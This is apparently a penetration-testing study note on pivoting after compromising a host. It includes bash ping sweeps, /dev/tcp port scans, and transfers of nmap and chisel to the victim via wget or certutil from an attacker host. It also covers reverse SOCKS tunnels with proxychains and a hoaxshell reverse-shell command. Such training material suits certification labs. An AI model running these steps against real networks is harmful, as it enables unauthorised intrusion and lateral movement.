

# 2.2 - PIVOTING ?

**What is Pivoting?**


<mark style="color:yellow;">Aggiungere riferimenti parte eJPT</mark>


<div align="left" data-full-width="false">

<figure><figcaption></figcaption></figure>

</div>

## Reconnaissance

We talk about pivoting when, **after having exploited a victim machine**, we find another internal network inside it. Therefore it is necessary to know the context well in the ways illustrated below.

### Hosts Discovery on internal network

Once we have found the internal hosts we can do 2 things:

* Create a bash script to find open ports of the new IP
* Upload a portable [nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap)


List of static binaries


### Host and Port Discovery using scripts

#### Host Discovery

#### Linux

```bash
for i in $(seq 254); do ping 10.0.2.${i} -c1 W1 & done | grep from
```

> `for i in $(seq 254)` -> do cicle 254 times, using i as cycle iterator
>
> `ping 10.0.2.${i} -c1 W1 &` -> do ping request at current IP (based on iterator value) sending only 1 packet (-c1), with 1 sec of timeout(-W1), all in background (&).&#x20;
>
> `do` and `done` -> delimiter the beginning and the ending of code block for which iteration&#x20;
>
> `| grep from` -> filter output of last commands displaying only output that contains answers received at ping request

#### We can use this similar solution:

```bash
#!/bin/bash
for i in $(seq 1 254); do
       timeout 1 bash -c "ping -c 1 10.0.2.$i" &>/dev/null && echo " 10.0.2.$i is Active" &
done; wait
```

#### Windows

```bash
ipconfig # IP list
arp -a # To see network interfaces
```


Install IPv4 Network Scanner to scan the network range


```bash
.\IPv4NetworkScanner.ps1 -StartIPv4Address 10.0.2.0 -EndIPv4Address 10.0.2.254
```

#### Open Ports Discovery

#### Linux

```bash
#!/bin/bash
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/<IP>/$port" &>/dev/null && echo "[*] $port Port is Open" &
done; wait
```

#### Windows


Check open port of network range


```bash
.\IPv4PortScanner .ps1 -ComputerName <name> -StartPort 1 -EndPort 500 | ft
```

### Host and Port Discovery using [Nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/nmap)

Simulating that we've access to first victim machine using SSH protocol, we need to download a portable scanning program (as nmap) on our attacker machine (kali) and transfer it on victim machine via SSH.

Go to this [github repo](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86\_64), that contains more useful static binary resources (nmap, python, socat, netcat, etc) and copy following URL:

[**https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap**](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap)

download it on our attacker machine (Kali), assign exe privilege:

```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap #download nmap binary
chmod +x nmap #take execution permission
```

and copy binary to victim machina via SSH:

```bash
scp nmap pivot@IP:/tmp #copy via ssh on /tmp victim machine directory 
```

or using hosting it on a python web server and downloading it on victim machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of nmap
wget http://<Attacker_IP>/nmap #if victim machine has Linux OS
certutil -urlcache -split -f http://<Attacker_IP>/nmap #if victim machine has Windows OS
```


Now, we've transferred nmap on victim/pivot machine and we can run it there:

```bash
./nmap IP #we need to use -Pn flag to scan Windows machines
```

## Pivoting phase

Now, we've scanning tool (bash script or nmap) to discover network and other subnets of victim/pivot machine, but we can't do a simple ping or scan to IP regarding external subnets from our attacker machine (kali).

To give a link between attacker machine and external iPs we need to using pivoting techniques.

## **Tools for Pivoting**

* [Chisel](https://github.com/jpillora/chisel)
* Metasploit (auxiliary/server/socks\_proxy)
* Logolo-ng
* Socat
* Netsh

## Chisel

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.



<figure><figcaption></figcaption></figure>

We are going to use Chisel to help us reach Target machine from our Attacker machine.&#x20;

We also need to install **proxychains,** if it is not already installed on our Attacker machine, by running the following command.

```bash
sudo apt-get -y install proxychains #download and install proxychains
curl https://i.jpillora.com/chisel! | bash #download and install binary
ln -s /usr/local/bin/chisel chisel #create a symbolic link for Chisel binary path
chmod +x chisel #take execution permission (do it on both machines)
```

Now, we've Chisel on our attacker machine (server), but we need to transfer it to victim machine (client) and establish a connection. Do it using a python HTTP server on port 80, on our attacker machine and download it on attacker machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of chisel
wget http://<Attacker_IP>/chisel #if victim machine has Linux OS
certutil -urlcache -split -f http://<Attacker_IP>/chisel #if victim machine has Windows OS
chmod +x chisel #take execution permission (do it on both machines)
```

or transferring using SSH via:

```bash
scp chisel pivoting@IP:/tmp #copy via ssh on /tmp victim machine directory 
chmod +x chisel #take execution permission (do it on both machines) 
```

Finally, we can establish connection between attacker and victim using chisel:

#### Attacker Machine / Server

Solution 1

```
chisel server --socks5 --reverse
```

Solution 2

```bash
chisel server --reverse -p 2000
```

* PORT = port for the Chisel traffic
* socks5 = to setup a SOCKS5 proxy
* reverse = to tell Chisel to wait for a connection from a client

#### Victim Machine / Client

Solution 1

```
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> R:8000:<Victim_IP>:80
```

Solution 2

There are several ways to do this, one is to bring only one port which would be like this:

```bash
./chisel client <Attacker_IP>:2000 R:80:<Victim_IP>:80
```

Solution 3

Or via socks5 bring us all ports:

```bash
./chisel client <Attacker_IP>:2000 R:socks
```

* IP = The IP address of your Chisel server
* PORT = The port you set on your Chisel sever
* R:socks = enables the reverse SOCKS proxy

The connection will have been opened on the local port of our machine through 1080.

#### Setting Proxychains

First, check that you have [proxychains↗](https://github.com/haad/proxychains) installed. It comes preinstalled in Kali Linux or Parrot. With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following lines:

```bash
socks5 127.0.0.1 1080 #add Ip and port in listening on chisel attacker machine
```

Now we can talk directly with attacker machine and do a scan preceding `proxychains -q` before every command. The `-q` is for quiet mode since most attackers won’t need verbose proxy traffic.

```bash
proxychains nmap -p80 --open --min-rate 4000 -v <Victim_IP> -sT -Pn 
proxychains curl <Victim_IP>:80
proxychains xfreerdp /v:<Victim_IP> /u:Administrator
```

The traffic flows into port 1080 on your machine and out on your jump host, which has established a connection back to your listener on the port you specified when executing `chisel server`.

Setting FoxyProxy

If we want to set proxy to see webpage using browser, we can use an extension for browser such as [Foxy Proxy](https://getfoxyproxy.org/).

Install version for dedicated browser (Firefox, Chrome, etc)

Add Proxy -> Proxy Type: SOCKS5, Proxy IP address: 127.0.0.1, Port: \<Listening\_Attacker\_Port> and save

Turn on FoxyProxy an go on website directly using IP pivot machine.


### Connect back pivot machine with attacker machine

We need to establish a new connect using again Chisel on pivot machine

```bash
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> 0.0.0.0:9999:<Attacker_IP>:9999
```

than, we connect our machine (0.0.0.0:9999)  to attacker machine (kali) on port 9999

#### Reverse Shell

We can use this tool to create a powershell reverse shell for Windows machine to communicate back to attacker machine (kali).



```bash
python hoaxshell.py -s <Victim_IP> -p 9999
```

it generates a reverse shell payload on execute on windows victim machine using powershell.

It permits us to obtain a reverse shell connection with windows victim machine on our attacker kali machine.

## Metasploit

#### Pivoting


Pivoting


#### Port Forwarding


Portfwd



